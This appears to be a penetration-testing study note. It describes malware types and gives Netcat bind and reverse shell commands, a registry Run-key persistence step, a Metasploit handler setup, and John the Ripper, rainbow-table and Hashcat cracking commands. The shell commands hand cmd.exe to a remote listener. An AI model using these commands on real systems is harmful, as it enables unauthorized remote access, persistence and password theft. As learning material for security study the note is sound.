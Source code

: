 #### Malware
* Malicious Software that allows user to harm other system/user.
* Impact: Can cause DOS, Spy Users, Gain Unauthorized Access.

|Types|
|---|
|Virus|
|Trojan|
|Rootkit| 
|Bootkit|
|Adware|
|Spyware|
|Greyware|
|Dialer|
|Keylogger|
|Botnet|
|Ransomware|
|Worm|
|Data Stealing Malware|

#### Virus 
> Small piece of code that affects system, may execute every time when opeing the code, may replicate itself.

#### Trojan Horse
> Malware that can be embedded in harmless files like pdfs, Microsoft Office Files,etc. eg. Backdoor that can allow malicious user to gain shell on remote machine.Firewall can be used by network adminstrator to restrict connections from internet to internal machines.

#### Rootkit
> Malware that allows attacker to subert OS functioning.Attacker can maintain privileged access to victim machine bypassing firewalls.

#### Adware 
> Malcious software program that shows annoying ads to victim.

#### Spyware
> SOftware that allows attacker to monitor victims activities.Collects information like visited websites, collects password, etc.

#### Grayware
> Mutated malware

#### Keylogger
> Tracks users keystrokes, password and sends to attacker.Can be used in penetration tests.

|Keyloggers|Hardware Keylogger(Pendrive)|Rootkit Keylogger(more shealthy,invisible, works at kernel level hijacking OS APIs)|
|---|---|---|

![Screenshot at 2022-12-25 10-49-08](https://user-images.githubusercontent.com/85208639/209457618-4d5c4dd3-b815-4fbd-bc4f-fe2852fb2709.png)

#### Botnets
> Small Software programs installed on mass computers. Consist of C&C Server aand can be instructed to perform certain task simultaneously.

#### Ransomware
> Software that encrypts victims files with secret key.

#### Data Stealing Software
> Malicious software program capable of stealing most sensitive data.

#### Backdoor With Netcat

```
ncat.exe -l -p 5555 -e cmd.exe >> In victims Machine

nc 192.168.10.102 5555

```

#### Reverse Connection With Netcat

> Victim is on internal network and attacker wants to connect to it.

```
nc -lvp 5555  >> Attacker listens on port 5555
nc.exe -e cmd.exe 192.168.0.1 5555


```

#### Creating Persistent Backdoor With Netcat

* Attacker needs to edit the victims registry so even when victim closes his system upon reboot attacker will be able to get a shell.
```
nc -l -v -p 5555 >> In attackers machine
Open "regedit" in victims machine and navigate to "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"  and add new registry.
```
![Screenshot at 2022-12-25 13-04-04](https://user-images.githubusercontent.com/85208639/209460152-2b8f0ad9-177d-4f3e-8ff7-a91606ae3f93.png)


![Screenshot at 2022-12-25 13-05-33](https://user-images.githubusercontent.com/85208639/209460287-434fc945-ac92-4dc4-8a47-4bc57df29c0e.png)

#### Session Management With Metasploit 
> Since we have already obtained shell previously we can use metasploit to get more features.

#### Convert Reverse Shell to Meterpreter Shell
```
use multi/hander
set LHOST, LPORT on which you will listen and run
```

#### Password Attacks

##### Password Cracking
>Process of recoveing plaintext password from hash. Here attacker tries to guess password, hashes it and then compares the result against the password file.

##### Techniques
* Bruteforce Attack (Takes heck long time but yeilds better result)
* Dictionary Attack (Faster)

##### John the Ripper
###### M4ng1ing Rules with john the ripper
```
john -wordlist=file -rules <file to crack>
```

#### Rainbow Tables:

Password Cracking with rtgen
#### Rainbow Table Creation
```
sudo rtgen md5 loweralpha 1 3 0 1000 1000 0

echo "bug" | md5sum
> ae0e4bdad7b5f67141743366026d2ea5

rcrack md5_loweralpha#1-3_0_1000x1000_0.rt -h ae0e4bdad7b5f67141743366026d2ea5 >> hash will be cracked.

```
> If salt is used during hashing then rainbow table will be useless.

#### Ophcrack
> Ophcrack is a Windows password cracking tool used to crack NT and NTLM hashes.

* First download rainbow tables and download transmission.
* Load hashes and Click on Crack.

> Resource: https://ophcrack.sourceforge.io/ https://ophcrack.sourceforge.io/tables.php

#### Custom Rules in Hashcat (Useful During CTFs)

##### Resource: https://hashcat.net/wiki/doku.php?id=rule_based_attack
```
hashcat -m mode example.hash exaple.dict -r custom.rule
```

##### Hashcat Mask Attack
>Quicker than pure bruteforce attack .
> Resource: https://hashcat.net/wiki/doku.php?id=mask_attack
```
hashcat -m 0 -a 3 hash ?1?1?1?1?1?1?1?1?a
```

#### Buffer Overflow:
> Allows user to force the program to behave differently compared to what it was intended to causing vulneabilities such as denial of service, RCE, privilege escalation, race condition, etc....

##### Buffer :
>Area in RAM preserved for temporary storage that include parts of video,server banner, users input, etc.


>They have a finite size.

> If the developer doesnot enforce buffer limit, attacker can find a way to write beyond buffer and can control program execution flow.

> Buffers are stored on menory called stack using LIFO approach.
